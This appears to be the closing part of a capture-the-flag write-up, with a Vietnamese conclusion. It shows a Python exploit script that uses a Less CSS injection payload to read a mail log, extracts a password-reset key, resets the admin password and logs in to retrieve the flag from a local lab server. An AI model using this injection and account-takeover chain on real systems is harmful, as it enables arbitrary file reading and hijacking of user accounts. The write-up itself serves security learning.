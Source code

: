 ```py
            "key": secret_key
        }
        response = requests.post(url=url, data=data, timeout=self.timeout)
        if "Reset Done" in response.text:
            print(f"[+] Reset Password Success")
            return True
        else:
            print(f"[-] Reset Password Failed")
            return False

    def login_get_flag(self):
        url = f"{self.baseURL}/login"
        data = {
            "username": "admin",
            "password": self.newPassword
        }
        response = requests.post(url=url, data=data, timeout=self.timeout)
        if response.status_code == 200:
            print(f"[+] Login Success: ", response.text, "\n")
        else:
            print(f"[-] Login Failed: ", response.text, "\n")

        flag = re.search(r"(flag\{.*?\})", response.text, re.IGNORECASE)
        if flag:
            print(f"[+] DONE FLAG HERE: \n", flag.group(1))
        else:
            print(f"[-] Not Flag")

    def run(self):
        self.trigger_reset_mail()
        self.leak_secret_key()
        css_text = self.fetch_image()
        if not css_text:
            print(f"[+] Not Found Key")
            return
        key = self.pass_reset_key(css_text)
        if not key:
            print(f"[-] Secret key regex not found")
            return
        print(f"[+] Got Key: ", key)
        self.pass_reset(key)
        self.login_get_flag()


if __name__ == "__main__":
    BASE_URL = "http://127.0.0.1:3000"
    newPassword = "123"
    payload = '#5C62D6;@import (inline) "mail.log";'
    timeout = 5.0
    exploit = Exploit(BASE_URL, newPassword, payload, timeout)
    exploit.run()
```
Ouput: <br>
<img width="626" height="347" alt="image" src="https://github.com/user-attachments/assets/76b05b6b-caed-4ac5-b444-f41e74459d76" /> <br>
## Kết Luận
Những gì tôi học được: <br>
> 1. Lợi dụng Less CSS Injection để đọc file tùy ý RCE




